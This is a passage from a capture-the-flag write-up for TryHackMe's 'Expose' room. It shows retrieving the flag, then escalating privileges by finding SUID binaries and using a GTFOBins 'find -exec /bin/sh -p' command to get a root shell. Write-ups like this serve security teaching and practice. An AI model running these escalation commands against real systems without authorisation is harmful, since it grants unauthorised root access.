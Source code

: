 And we are in:
![image](https://miro.medium.com/v2/resize:fit:750/format:webp/1*fLzX9Fa4-T9-yftVflMykg.png)

Get the flag.txt:
![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*33fpqvNXhKaRX260UyAFQw.png)

*Privilege Escalation*
find files that have SUID permission to get root:

```bash
find / -perm -u=s 2>/dev/null
```

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ytHYpdL9NaZt9p7w5m8JEw.png)

Escalate permissions with binary suid.
gtfobins :
```bash
gtfobins.github.io
```
```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

After running this code, we are root.
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*F2taBQ1qvKo6GxMuqzXNDg.png)

This is expose capture the flag on TryHackMe platform.
Hope you find this writeup helpful.

Happy Hacking!

**Written by Alon Presman, Penetration Tester and Ethical Hacker.**



























